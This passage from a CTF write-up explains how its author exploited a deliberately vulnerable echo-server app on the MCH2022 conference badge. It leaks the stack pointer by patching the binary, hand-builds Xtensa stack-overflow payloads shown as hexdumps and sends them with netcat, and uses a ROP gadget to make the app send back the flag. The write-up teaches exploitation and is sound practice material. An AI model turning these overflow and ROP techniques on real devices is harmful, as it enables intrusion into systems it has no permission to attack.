So all we have to do is make a copy of ``hack_me_if_you_can.elf``, replace ``25 b8 b9 fd 03`` (only one occurrence, yay!) with ``25 b8 b9 fd 01``, and for printout convenience, also replace ``Received %i bytes`` by ``Received %p bytes`` so that we get a nice hex value.

Now we can use esptool_ to convert our patched ELF to an app binary:

  ``esptool.py elf2image hack_me_if_you_patch.elf``

and upload that to the badge using the mch2022-tools_:

  ``webusb_push.py hax hack_me_if_you_patch.bin``

Connect to the USB console, start the patched app, connect using netcat and send whatever, you'll see this:

  ``I (14768) hack-me-if-you-can: Received 0x3ffbf170 bytes``

And that's our stack pointer!

.. note::
  Of course, you could also simply insert an illegal instruction (try ``00 00 00``) to get a guru meditation that dumps all registers at once. That would have probably been a lot easier and doesn't require a conveniently located debug print either.

.. warning::
  This stack pointer value *is not stable* between environments! Throughout the camp, connected to the camp WiFi I had a stable value of 0x3ffc0cd0. Back home in my home WiFi the value is now 0x3ffbf170. Your value may be different yet. I'm going to construct my exploits below using 0x3ffbf170 but keep in mind that *you may have to use different values*.

.. warning::
  Do not attempt to patch the ESP .bin unless you absolutely have to - it's protected by checksums and hashes that will prevent a patched binary from being loaded. It's much easier to patch the ELF and use esptool to generate the .bin.


Crafting an exploit, act 1: Please don't crash
==============================================

We finally have all we need to craft a first exploit payload. Let's gently feel our way forward and first try to construct a stack that won't horribly crash on us, i.e. try to reconstruct the original stack. If we can send this stack image over to the buggy app without it crashing we'll know our understanding so far is correct.

Setting up a template
---------------------

There might be plenty of awesome tools for crafting stack payloads around, but I simply used a hex editor :) Let's start by writing a text file in a text editor::

  asdfasdfasdfasdfasdfasdfasdfasdfA4A4A5A5A6A6A7A7C0C0C1C1C2C2C3C3B4B4B5B5B6B6B7B7D0D0D1D1D2D2D3D3C4C4C5C5C6C6C7C7E0E0E1E1E2E2E3E3D4D4D5D5D6D6D7D7F0F0F1F1F2F2F3F3E4E4E5E5E6E6E7E\n

One line, no line breaks except the one at the very end. Make sure it's Unix encoded so the ``\n`` is a single 0x0A byte. Save the file as ``payload1-nocrash.bin``, and re-open in your favorite hex editor. Here's the file layout:

``asdfasdfasdfasdfasdfasdfasdfasdf``:
  The 32-byte receive buffer.

``A4A4A5A5A6A6A7A7``:
  Extra save area for ``do_echo``'s stack frame, dubbed frame A from now on. ``A4A4`` is ``a4``, ``A5A5`` is ``a5`` and so on.

``C0C0C1C1C2C2C3C3``:
  Base save area for the stack frame two above ``do_echo``, dubbed frame C.

And so forth for the stack frames further up. All those frames are ``do_echo_recursive`` so we know there are no locals in between the save areas.

There's no specific method to the amount of stack frames I put in there; there are a few constraints though:

* We must not overwrite *too many* frames or we'll eventually end up returning from ``echo_server`` itself. The RTOS doesn't like that, btdt. So let's keep the number of frames below 9-ish.
* We may need more than one full set of registers later, so let's put more frames in than just one or two, for good measure.

Between those constraints, three full stack frames (C, D and E) felt like an okay starting point. If we need more we'll add them later.

With that, we can now replace register values in all the stack frames from B upwards; the frame A extra save area will be overwritten by register values saved during the ``lwip_recv`` calls - looks like they have a proper long call chain inside. Luckily we don't have to be careful not to clobber any registers in ``do_echo_recursive`` since all it does is return.


Choosing register values
------------------------

All we'd like to do for now is guess register values that won't cause the program to crash. Since ``a2..a8`` aren't being used in the return path of ``do_echo_recursive`` we don't have to deal with their values right now. What's important is the return addresses in ``r0`` and stack pointers in ``r1``.

Let's start with the first pair of these, in the frame C base save area. Let's think for a second: Frame A is ``do_echo``, so frame B is the ``do_echo_recursive`` call which ends up calling ``do_echo`` and frame C is one of the many ``do_echo_recursive`` calls which call themselves. So the return address for frame C should point here::

                        LAB_400d739c
  400d739c 0b b3           addi.n     a11,count,-0x1
  400d739e e5 fe ff        call8      do_echo_recursive
                        LAB_400d73a1
  400d73a1 2d 0a           mov.n      sock,a10     <===== HERE
  400d73a3 1d f0           retw.n

But you know what? This would clobber any value we may have painstakingly put into ``a2``, so let's deviate from the original flow a bit and skip that ``mov`` instruction. Let's use the address of the ``retw`` instead.

Also, this is a great moment to remember how the topmost two bits of the return address *actually* encode the amount to shift the register window when returning? We better encode the right value in here! Since we're using ``call8`` everywhere that would be ``0b10``.

With all that in mind, we can craft our first register value:

  ``r0 = 0x800d73a3``

Let's think about the stack pointer next. We know the stack pointer value for frame A, 0x3ffbf170. The size of that frame is 0x40, so the stack pointer for frame B would be 0x3ffbf1b0. That frame and all that follow are 0x20 bytes, so the stack pointer of frame C would be 0x3ffbf1d0:

  ``r1 = 0x3ffbf1d0``


Putting it all together
-----------------------

Neat, let's put that into our payload! Keeping in mind that values are stored in little-endian order, we can change this:

  ``0030: 43 30 43 30 43 31 43 31 43 32 43 32 43 33 43 33  C0C0C1C1C2C2C3C3``

into this:

  ``0030: a3 73 0d 80 d0 f1 fb 3f 43 32 43 32 43 33 43 33  .s.....?C2C2C3C3``

For stack frames D, E and F we can reuse the same value for ``r0`` since we want to return to the same location, but we have to update the stack pointers to the corresponding next stack frame. That's easy though since each frame is 0x20 bytes long so we just have to keep adding 0x20 each time:

  ``xxd -g1 payload1-nocrash.bin``

::

  00000000: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66  asdfasdfasdfasdf
  00000010: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66  asdfasdfasdfasdf
  00000020: 41 34 41 34 41 35 41 35 41 36 41 36 41 37 41 37  A4A4A5A5A6A6A7A7
  00000030: a3 73 0d 80 d0 f1 fb 3f 43 32 43 32 43 33 43 33  .s.....?C2C2C3C3
  00000040: 42 34 42 34 42 35 42 35 42 36 42 36 42 37 42 37  B4B4B5B5B6B6B7B7
  00000050: a3 73 0d 80 f0 f1 fb 3f 44 32 44 32 44 33 44 33  .s.....?D2D2D3D3
  00000060: 43 34 43 34 43 35 43 35 43 36 43 36 43 37 43 37  C4C4C5C5C6C6C7C7
  00000070: a3 73 0d 80 10 f2 fb 3f 45 32 45 32 45 33 45 33  .s.....?E2E2E3E3
  00000080: 44 34 44 34 44 35 44 35 44 36 44 36 44 37 44 37  D4D4D5D5D6D6D7D7
  00000090: a3 73 0d 80 30 f2 fb 3f 46 32 46 32 46 33 46 33  .s..0..?F2F2F3F3
  000000a0: 45 34 45 34 45 35 45 35 45 36 45 36 45 37 45 0a  E4E4E5E5E6E6E7E.

Let's give this a shot!

  ``cat payload1-nocrash.bin | nc -N 192.168.178.50 1337 | dd bs=1 skip=22 | xxd -g 1``

::

  00000000: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66  asdfasdfasdfasdf
  00000010: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66  asdfasdfasdfasdf
  00000020: 90 0a fb 3f 00 39 40 3f 41 36 41 36 41 37 41 37  ...?.9@?A6A6A7A7
  00000030: a3 73 0d 80 d0 f1 fb 3f 43 32 43 32 43 33 43 33  .s.....?C2C2C3C3
  00000040: 42 34 42 34 42 35 42 35 42 36 42 36 42 37 42 37  B4B4B5B5B6B6B7B7
  00000050: a3 73 0d 80 f0 f1 fb 3f 44 32 44 32 44 33 44 33  .s.....?D2D2D3D3
  00000060: 43 34 43 34 43 35 43 35 43 36 43 36 43 37 43 37  C4C4C5C5C6C6C7C7
  00000070: a3 73 0d 80 10 f2 fb 3f 45 32 45 32 45 33 45 33  .s.....?E2E2E3E3
  00000080: 44 34 44 34 44 35 44 35 44 36 44 36 44 37 44 37  D4D4D5D5D6D6D7D7
  00000090: a3 73 0d 80 30 f2 fb 3f 46 32 46 32 46 33 46 33  .s..0..?F2F2F3F3
  000000a0: 45 34 45 34 45 35 45 35 45 36 45 36 45 37 45 0a  E4E4E5E5E6E6E7E.

Yep, that's our payload back, mostly unscathed! And the app didn't crash - we can repeat this ad nauseam :) Pat yourself on the shoulder, we came a long way!

.. note::
  The ``dd bs=1 skip=22`` in the chain is just there to remove the ``Connection accepted!`` message the badge sends us upon connection.

.. warning::
  If this payload doesn't work for you and instead crashes the badge, chances are you have a different stack pointer than I and have not yet adapted the payload to your specific stack pointer value.


Crafting an exploit, act 2: Let's make it dance! Maybe.
=======================================================

Okay wow, that's a huge success! Now let's see if we can actually make the app execute code of our choosing! Let's put some simple code into our scratch buffer and see if we can return into it.

Copy ``payload1-nocrash.bin`` into ``payload2-codeonstack.bin`` and open it in the hex editor. As for code to execute, let's start simple and mimick a simple ``return 0`` which we copy from ``do_echo``::

  400d7388 0c 02           movi.n     a2,0x0
  400d738a 1d f0           retw.n

The buffer starts at 0x3ffbf170, so let's use that as our first return address. So we change the first 4 bytes of the payload to contain our instructions, and the first return address to 0xbffbf170, remembering that the top two bits must be 0b10 to encode the register window shift amount:

  ``xxd -g1 payload2-codeonstack.bin``

::

  00000000: 0c 02 1d f0 61 73 64 66 61 73 64 66 61 73 64 66  ....asdfasdfasdf
  00000010: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66  asdfasdfasdfasdf
  00000020: 41 34 41 34 41 35 41 35 41 36 41 36 41 37 41 37  A4A4A5A5A6A6A7A7
  00000030: 70 f1 fb bf d0 f1 fb 3f 43 32 43 32 43 33 43 33  p......?C2C2C3C3
  00000040: 42 34 42 34 42 35 42 35 42 36 42 36 42 37 42 37  B4B4B5B5B6B6B7B7
  00000050: a3 73 0d 80 f0 f1 fb 3f 44 32 44 32 44 33 44 33  .s.....?D2D2D3D3
  00000060: 43 34 43 34 43 35 43 35 43 36 43 36 43 37 43 37  C4C4C5C5C6C6C7C7
  00000070: a3 73 0d 80 10 f2 fb 3f 45 32 45 32 45 33 45 33  .s.....?E2E2E3E3
  00000080: 44 34 44 34 44 35 44 35 44 36 44 36 44 37 44 37  D4D4D5D5D6D6D7D7
  00000090: a3 73 0d 80 30 f2 fb 3f 46 32 46 32 46 33 46 33  .s..0..?F2F2F3F3
  000000a0: 45 34 45 34 45 35 45 35 45 36 45 36 45 37 45 0a  E4E4E5E5E6E6E7E.

Sweet, let's test this!

  ``cat payload2-codeonstack.bin | nc -N 192.168.178.50 1337 | dd bs=1 skip=22 | xxd -g 1``

::

  Guru Meditation Error: Core  0 panic'ed (IllegalInstruction). Exception was unhandled.

  Core  0 register dump:                            
  PC      : 0x7ffbf170  PS      : 0x00060530  A0      : 0x800d73a3  A1      : 0x3ffbf1f0
  A2      : 0x32443244  A3      : 0x33443344  A4      : 0x34443444  A5      : 0x35443544
  A6      : 0x36443644  A7      : 0x37443744  A8      : 0xbffbf170  A9      : 0x3ffbf1d0
  A10     : 0x00000001  A11     : 0x33433343  A12     : 0x34433443  A13     : 0x35433543
  A14     : 0x36433643  A15     : 0x37433743  SAR     : 0x0000000e  EXCCAUSE: 0x00000000
  EXCVADDR: 0x00000000  LBEG    : 0x4000c2e0  LEND    : 0x4000c2f6  LCOUNT  : 0xffffffff

Sadface :(

Well, what happened there? The core *did* jump to our desired address... almost. Except for the top two bits, which we cannot control via ``callN``/``retw`` and which therefore stayed at 0b01, turning our address from 0x3ffbf170 into 0x7ffbf170.

Welp, looks like the easy way of putting code into the stack won't work. Lucky for us, there's plenty of code already there for us to use :)


Crafting an exploit, act 3: Using what's already there
======================================================

If we can't put our own code onto the stack, we can still use the code that's already there. The app is over 1MiB, there *must* be a sequence we can use somewhere in there.

What we're looking for is a sequence of instructions that does a lot of what we need and doesn't to a lot more before hitting a ``retw`` instruction. We can then craft a return address on our stack that "returns" right to the start of that sequence (which may well be in the middle of a completely unrelated function, guess how much I care). If the sequence doesn't do all that we need, we have more stack frames we can use to jump to other sequences until we reach our goal.

You probably know what I'm talking about here - this method is called "`Return-oriented programming`_" or ROP for short, and the sequences we're looking for are called "ROP gadgets".

.. _Return-oriented programming: https://en.wikipedia.org/wiki/Return-oriented_programming


Finding the Inspector [4]_
--------------------------

Since our goal is to call ``lwip_send`` with parameters of our choosing, let's look for a place that calls it::

  lwip_send     XREF[6]:     Entry Point(*), 
                             do_echo:400d737f(*), 
                             echo_server:400d7667(*), 
                             lwip_sendto:40100f35(*), 
                             lwip_write:401011f6(*), 
                             .debug_frame::000125f8(*)  

``lwip_sendto`` uses a stack variable for the ``flags`` parameter::

  40100f2d d8 c1           l32i.n     a13,a1,0x30=>Stack[0x30]
  40100f2f cd 04           mov.n      a12,size
  40100f31 bd 03           mov.n      a11,data
  40100f33 ad 02           mov.n      a10,s
  40100f35 65 15 00        call8      lwip_send
  40100f38 2d 0a           mov.n      s,a10
  40100f3a 86 52 00        j          LAB_40101088      ; jumps to a retw

``lwip_write`` simply sets it to zero which is what we need::

  401011eb d2 a0 00        movi       a13,0x0
  401011ee 40 c4 20        mov        a12,size
  401011f1 30 b3 20        mov        a11,data
  401011f4 ad 02           mov.n      a10,s
  401011f6 65 e9 ff        call8      lwip_send
  401011f9 2d 0a           mov.n      s,a10
  401011fb 1d f0           retw.n

Normally it would be a no-brainer to pick ``lwip_write`` for our gadget, specifically the instruction sequence starting at 0x401011eb, but I'd like to make a point and choose the more complicated path by picking ``lwip_sendto`` :)

You see, we're not gonna need that instruction at 0x40100f2d if we can control ``a13`` directly. And ``a13`` used to be called ``a5`` one stack frame ago because of the moving window. So we can control, say, frame D's ``a13`` simply by controlling frame C's ``a5``.

So we have *almost* all we need:

* Control over ``a2..a4`` for parameters set up by the gadget
* Control over ``a13`` for the parameters *not* set up by the gadget
* The values of the ``size`` and ``data`` parameters (our flag and its size)

The last piece to the puzzle is the value of ``s`` or ``sock``, but we can dump that out by patching the app once again. A few re-runs of the app reveal that ``sock`` is always 0x37 so we can hardcode that value too.


Could this be it?
-----------------

So let's make another copy of ``payload1-nocrash.bin`` called ``payload3-allyourbase.bin`` and edit it thusly::

  frame C a0 = 0x80100f2f  (our gadget, with top two bits = 0b10)
  frame C a5 = 0           (flags)
  frame D a2 = 0x37        (s - the socket)
  frame D a3 = 0x3ffb5358  (data - our flag)
  frame D a4 = 0x26        (size - size of the flag)

.. note::
  Wonder why we're setting frame C ``a0`` to our gadget when we want to jump there from frame D? I did too, when at first I used frame D ``a0`` and nothing worked ;)

  The trick is we don't want to jump to the gadget from frame D, we want to jump there *from frame C* so that our gadget *runs within frame D*. That way its ``a2..a4`` will be set as we need them, and frame C's ``a5`` will have shifted into ``a13``.

The payload now should look somewhat like this::

  00000000: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66  asdfasdfasdfasdf
  00000010: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66  asdfasdfasdfasdf
  00000020: 41 34 41 34 41 35 41 35 41 36 41 36 41 37 41 37  A4A4A5A5A6A6A7A7
  00000030: 2f 0f 10 80 d0 f1 fb 3f 43 32 43 32 43 33 43 33  /......?C2C2C3C3
  00000040: 42 34 42 34 42 35 42 35 42 36 42 36 42 37 42 37  B4B4B5B5B6B6B7B7
  00000050: a3 73 0d 80 f0 f1 fb 3f 37 00 00 00 58 53 fb 3f  .s.....?7...XS.?
  00000060: 43 34 43 34 00 00 00 00 43 36 43 36 43 37 43 37  C4C4....C6C6C7C7
  00000070: a3 73 0d 80 10 f2 fb 3f 45 32 45 32 45 33 45 33  .s.....?E2E2E3E3
  00000080: 26 00 00 00 44 35 44 35 44 36 44 36 44 37 44 37  &...D5D5D6D6D7D7
  00000090: a3 73 0d 80 30 f2 fb 3f 46 32 46 32 46 33 46 33  .s..0..?F2F2F3F3
  000000a0: 45 34 45 34 45 35 45 35 45 36 45 36 45 37 45 0a  E4E4E5E5E6E6E7E.

With trembling fingers, we enter the command to send it to our target... just kidding, what's a shell history for? *<hits cursor-up and edits the last command>*

  ``cat payload3-allyourbase.bin | nc -w 5 192.168.178.50 1337 | dd bs=1 skip=22 | xxd -g 1``

::

  00000000: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66  asdfasdfasdfasdf
  00000010: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66  asdfasdfasdfasdf
  00000020: 90 0a fb 3f 00 39 40 3f 41 36 41 36 41 37 41 37  ...?.9@?A6A6A7A7
  00000030: 2f 0f 10 80 d0 f1 fb 3f 43 32 43 32 43 33 43 33  /......?C2C2C3C3
  00000040: 42 34 42 34 42 35 42 35 42 36 42 36 42 37 42 37  B4B4B5B5B6B6B7B7
  00000050: a3 73 0d 80 f0 f1 fb 3f 37 00 00 00 58 53 fb 3f  .s.....?7...XS.?
  00000060: 43 34 43 34 00 00 00 00 43 36 43 36 43 37 43 37  C4C4....C6C6C7C7
  00000070: a3 73 0d 80 10 f2 fb 3f 45 32 45 32 45 33 45 33  .s.....?E2E2E3E3
  00000080: 26 00 00 00 44 35 44 35 44 36 44 36 44 37 44 37  &...D5D5D6D6D7D7
  00000090: a3 73 0d 80 30 f2 fb 3f 46 32 46 32 46 33 46 33  .s..0..?F2F2F3F3
  000000a0: 45 34 45 34 45 35 45 35 45 36 45 36 45 37 45 0a  E4E4E5E5E6E6E7E.
  000000b0: 66 6c 61 67 7b 6e 6f 74 5f 61 5f 72 65 61 6c 5f  flag{not_a_real_
  000000c0: 66 6c 61 67 7d 00 00 00 00 00 00 00 00 00 00 00  flag}...........
  000000d0: 00 00 00 00 00 00                                ......

**And there it is - our tasty, tasty flag!**

.. tip::
  There are so many ways to skin this ROP cat (you monsters!) and this is only one of them. For exercise, you could try some other approaches:

  * Make your life easy as you should and use ``lwip_write`` for the gadget.
  * Set up ``a10..a13`` and return directly to the ``call8 lwip_send``.
  * Forgo the gadgets altogether, set up ``a2..a5`` directly and return right to the start of ``lwip_send``.


Recap
=====

Let's review what all we just accomplished, shall we?

1. We poked around the app, found a way to crash it and a debug console.
2. We loaded the app into Ghidra, understood the app initialization and discovered that it's a simple TCP echo server.
3. We reverse engineered the echo server and understood the nature and exploitability of the bug that crashes it.
4. We learned about movable register windows and weirdly distributed stack frames on the Xtensa architecture.
5. We patched the ESP app to extract internal values via the debug console.
6. We crafted multiple exploit payloads by hand, using nothing but a hex editor.
7. We discovered a ROP gadget and used it to our advantage.
8. WE GOT THE $&/)!"$("§$%)( FLAG! \\o/

That's quite a lot to accomplish and you can be proud of yourself. I know I am :)


Closing words
=============

Thanks for making it through to the end of this writeup. Really, I mean it. The RST source for this grew into a 57KiB behemoth so it's quite a mouthful - thank you for bearing with my ramblings. I tried to make this piece both insightful and entertaining and am hoping I succeeded at both.

Mad props must go first of all to my partners in crime at Team Bratzenamt_: DoubleJ_, ove, Y0Gi, Jo, Jo2 and Jake.

Many thanks also go to the `MCH2022 CTF team`_ for creating a very diverse and interesting CTF that kept us puzzling throughout the camp, and to the `MCH2022 Badge team`_ for providing a *ridiculously* complex and feature-rich badge that will keep us occupied for a long time!

That's all for now. See you at the next CTF! o/

.. _DoubleJ: https://twitter.com/hwl_micha
.. _Bratzenamt: https://ctf.mch2022.org/user?id=20
.. _MCH2022 CTF team: https://twitter.com/MCH2022CTF
.. _MCH2022 Badge team: https://www.badge.team/team/


Footnotes
=========

.. [1] After MCH2022 was over, DoubleJ_ found out that there's a bleeding edge version of the plugin that *does* support decompilation: The `fork by Ebiroll`_ appears to have decompiler support; you may have to merge a `pending PR`_ to make it work, or again if you trust DoubleJ you can use `this pre-built release`_. Nevertheless, we'll keep working without the decompiler in this writeup because that's what I did during the CTF and hardship builds character ;)

.. [2] I should mention that I knew exactly *nothing* about ESP programming before embarking on this challenge, so if this sounds like CptObvs to you please bear with me and consider it a lesson in approaching an unknown target ;)

.. [3] Any of ``a1``, ``a2`` or ``a3`` may in theory serve as stack pointer but let's go with ``a1`` for simplicity.

.. [4] I'm sure it's required by law to make a stupid Inspector Gadget joke when talking about ROP.
